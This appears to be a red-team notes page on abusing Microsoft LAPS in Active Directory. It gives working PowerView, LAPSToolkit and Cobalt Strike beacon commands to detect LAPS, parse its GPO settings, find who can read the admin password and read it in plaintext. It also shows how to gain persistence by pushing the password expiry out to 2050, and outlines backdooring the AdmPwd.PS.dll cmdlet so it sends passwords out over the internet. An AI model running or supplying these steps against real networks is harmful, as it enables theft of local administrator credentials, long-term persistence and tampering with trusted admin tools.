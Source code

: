 ```yaml
---
title: Local Administrator Password Solution (LAPS)
category: Red Team
order: 13
---
```


LAPS is a Microsoft solution for managing the credentials of a local administrator account on every machine, either the default RID 500 or a custom account.  It ensures that the password for each account is different, random, and automatically changed on a defined schedule.  Permission to request and reset the credentials can be delegated, which are also auditable.  Here is a quick summary of how LAPS works:

* The Active Directory schema is extended and adds two new properties to computer objects, called `ms-Mcs-AdmPwd` and `ms-Mcs-AdmPwdExpirationTime`.
* By default, the DACL on `ms-Mcs-AdmPwd` only grants Domain Admins but each computer is given permission to update these properties on itself.
* Rights to read `AdmPwd` can be delegated to other principals (users, groups, etc) which is typically done at the OU level.
* A new GPO template is installed, which is used to deploy the LAPS configuration to machines.
* The LAPS client is also installed on every machine.
* When a machine performs a gpudate, it will check the `AdmPwdExpirationTime` property on its own computer. If the time has elapsed, it will generate a new password and sets it on the `ms-Mcs-AdmPwd` property.

# Hunting LAPS

* `AdmPwd.dll` on disk.

There are few methods to check for the presence of LAPS. If it's applied to a machine `AdmPwd.dll` will be on disk.

```
beacon> ls C:\Program Files\LAPS\CSE

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 179kb    fil     05/05/2021 07:04:14   AdmPwd.dll
```

* Via GPO.

We can search for GPO that have "LAPS" or some other descriptive term in the name

```powershell
Get-DomainGPO | ?{$_.DisplayName -like "*laps*"} | select DisplayName, Name, GPCFileSyspath |fl
```

* `ms-Mcs-AdmPwdExpirationTime` property not null on a computer.

When LAPS is installed on a computer the property `ms-Mcs-AdmPwdExpirationTime` will have a value set, every domain user can read this property.

```
Get-DomainComputer | ?{$_."ms-Mcs-AdmPwdExpirationTime" -ne $null} | select dnsHostName
```

# Downloading LAPS Configuration

If we locate the correct GPO, we can download the LAPS configuration form the `gpcfilesyspath`.

```
\\corp.local\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol
```

We can parse the pol file with `Parse-PolFile` from the `GPRegistryPolicyParser` package.

* [https://github.com/PowerShell/GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser)

```powershell
Parse-PolFile .\Registry.pol

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordComplexity
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 3

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordLength
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 14

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordAgeDays
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 30

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdminAccountName
ValueType   : REG_SZ
ValueLength : 20
ValueData   : LapsAdmin

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdmPwdEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PwdExpirationProtectionEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 0
```

# Reading ms-Mcs-AdmPwd

## PowerView

We can discover which principals are allowed to read the `ms-Mcs-AdmPwd` attribute by reading its DACL on each computer object.

* PowerView (dev):
```powershell
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier

ObjectDN                                                      SecurityIdentifier                          
--------                                                      ------------------                          
CN=WKSTN-2,OU=Workstations,DC=corp,DC=local                   S-1-5-21-569305411-121244042-2357301523-1107
```

We can check the Name of the principal from a SID.

```powershell
ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
CORP\Support Engineers
```
## LAPSToolkit

`LAPSToolkit` is a dedicated PowerShell tooling that can help us.

* [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

First such as PowerView we need to import the module.

```powershell
Import-Module .\LAPSToolit.ps1
```

`Find-LAPSDelegatedGroups` will query each OU and find domain groups that have delegated read access

```powershell
Find-LAPSDelegatedGroups
```

`Find-AdmPwdExtendedRights` goes a little deeper and queries each individual computer for users that have "All Extended Rights". This will reveal any users that can read the attribute without havind had it specifically delegated to them.

## Get LDAP Password

Finally we just need to read the attribute.

* PowerView (dev):
```powershell
Get-DomainComputer -Identity WKSTN-1 -Properties ms-Mcs-AdmPwd
```

# Password Expiration Protection

If the `PwdExpirationProtectionEnabled` policy is enabled, prevents a user of computer setting the expiration date of a password beyond the password age specified in the `PasswordAgeDays`.

It means that if password expiration is enabled and we attempted to modify its expiration date beyond the value set, it would trigger an automatic reset of that password.

But if its not configured in the GPO, then password expiration protection is disabled by default.

> **Note**: The expiration date is an 18-digit timestamp calculated as the number of 100-nanoseconds interavals. We can use a epoch converter [https://www.epochconverter.com/ldap](https://www.epochconverter.com/ldap) to translate these timestamps to human-readable format.


## Persistence by pushing the expiry out

First we need to convert the wanted data to epoch. In that case I will use `141940046450000000` which is translated to `16 October 2050 11:04:05`.

With a elevated shell we just need to modify the attribute.

```powershell
Set-DomainObject -Identity WKSTN-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '141940046450000000'} -Verbose
Setting 'ms-Mcs-AdmPwdExpirationTime' to '141940046450000000' for object 'WKSTN-1$'
```

> **OPSEC Alert**: The expiration date will still be visible to amdins and a manual reset will change the password and restore the expiration date.

# Backdoor in LAPS

Since Powershell heavily utilises the .NET framework, the dlls are written in C# which makes them fairly trivial to download, modify and re-upload.

We can modify the source code of the PowerShell cmdlet `Get-AdmPwdPassword` to install a backdoor.

```
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 13:04:13   en-US
 24kb     fil     05/05/2021 12:04:14   AdmPwd.PS.dll
 5kb      fil     04/28/2021 18:56:38   AdmPwd.PS.format.ps1xml
 4kb      fil     04/28/2021 18:56:38   AdmPwd.PS.psd1
 26kb     fil     05/05/2021 12:04:14   AdmPwd.Utils.dll
```

We can download `AdmPwd.PS.dll` open it with `dnSpy` and modify the class `GetPassword`.

Here we can inject our backdoor, we can simply send the plaintext password via internet, print on a file etc...